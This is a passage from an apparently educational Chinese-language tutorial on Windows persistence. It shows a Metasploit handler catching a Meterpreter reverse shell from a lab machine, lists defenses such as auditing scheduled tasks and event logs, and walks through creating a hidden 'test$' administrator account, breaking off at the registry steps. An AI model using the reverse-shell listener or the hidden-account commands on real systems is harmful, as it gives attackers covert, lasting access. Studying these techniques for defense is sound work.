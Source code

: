 ###### 监听返回的shell

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.226.131
set lport 8888
exploit
```

过一分钟之后接接收到靶机反弹回来的shell，权限维持成功

![image-20240526000627298](./assets/image-20240526000627298.png)



##### 防范措施

1. **监控和审计**：定期检查和审计计划任务，尤其是以系统或高权限用户身份运行的任务。可以使用 Task Scheduler 的图形界面或命令行工具查看任务。

   ```cmd
   schtasks /query /fo LIST /v
   ```

2. **权限管理**：限制对 Task Scheduler 的访问权限，确保只有授权用户能够创建或修改计划任务。

3. **使用安全软件**：部署并使用防病毒和反恶意软件工具，检测和阻止可疑的任务创建和修改行为。

4. **事件日志**：启用并监控 Windows 事件日志，特别是 Task Scheduler 的操作日志（Microsoft-Windows-TaskScheduler），以发现可疑活动。





#### 影子用户

影子用户即创建的隐藏用户，它无法通过普通命令进行查询，比较隐蔽。

这里以win10作为演示

先利用命令创建一个隐藏用户,并将其加入本地管理员组。

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```

net user命令无法查看，但是可以在计算机管理和登陆页面中看到

**解决办法**

打开注册表:

```
HKEY_LOCAL_MACHINE\SAM\SAM
```

修改权限:
